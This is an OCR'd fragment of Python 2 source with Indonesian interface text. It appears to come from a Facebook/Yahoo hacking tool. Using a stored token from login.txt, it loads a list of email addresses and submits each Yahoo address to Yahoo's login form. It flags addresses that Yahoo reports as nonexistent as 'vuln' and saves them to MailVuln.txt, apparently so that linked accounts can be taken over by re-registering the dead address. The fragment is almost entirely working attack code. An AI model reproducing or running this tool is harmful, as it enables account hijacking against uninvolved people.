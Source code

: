                 if '"messages.ERROR_INVALID_USERNAME">' in pek:
                    save.write(mail + '\n')
                    print 40 * '\x1b[1;97m\xe2\x95\x90'
                    print '\x1b[1;91m[\x1b[1;96m\xe2\x9c\x93\x1b[1;91m] \x1b[1;92mNama  \x1b[1;91m:\x1b[1;97m ' + nama
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mID    \x1b[1;91m:\x1b[1;97m ' + id
                    print '\x1b[1;91m[\xe2\x9e\xb9] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;97m ' + mail + ' [\x1b[1;92m' + vuln + '\x1b[1;97m]'
                    print 40 * '\x1b[1;97m\xe2\x95\x90'
                else:
                    print '\x1b[1;91m[\xe2\x9c\x96] \x1b[1;92mEmail \x1b[1;91m:\x1b[1;91m ' + mail + ' \x1b[1;97m[\x1b[1;92m' + vulnot + '\x1b[1;97m]'
        except KeyError:
            pass

    print '\n\x1b[1;91m[+] \x1b[1;97mSelesai'
    print '\x1b[1;91m[+] \x1b[1;97mTersimpan \x1b[1;91m:\x1b[1;97m MailVuln.txt'
    save.close()
    raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
    menu_yahoo()


def yahoolist():
    os.system('clear')
    try:
        toket = open('login.txt', 'r').read()
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print logo
        print 40 * '\x1b[1;97m\xe2\x95\x90'
        files = raw_input('\x1b[1;91m[+] \x1b[1;92mFile \x1b[1;91m: \x1b[1;97m')
        try:
            total = open(files, 'r')
            mail = total.readlines()
        except IOError:
            print '\x1b[1;91m[!] File tidak ada'
            raw_input('\n\x1b[1;91m[ \x1b[1;97mKembali \x1b[1;91m]')
            menu_yahoo()

    mpsh = []
    jml = 0
    jalan('\x1b[1;91m[\xe2\x9c\xba] \x1b[1;92mTunggu sebentar \x1b[1;97m...')
    save = open('MailVuln.txt', 'w')
    print 40 * '\x1b[1;97m\xe2\x95\x90'
    print '\x1b[1;91m[?] \x1b[1;97mStatus \x1b[1;91m:  \x1b[1;97mRed[\x1b[1;92m' + vulnot + '\x1b[1;97m]  Green[\x1b[1;92m' + vuln + '\x1b[1;97m]'
    print
    mail = open(files, 'r').readlines()
    for pw in mail:
        mail = pw.replace('\n', '')
        jml += 1
        mpsh.append(jml)
        yahoo = re.compile('@.*')
        otw = yahoo.search(mail).group()
        if 'yahoo.com' in otw:
            br.open('https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com')
            br._factory.is_html = True
            br.select_form(nr=0)
            br['username'] = mail
            klik = br.submit().read()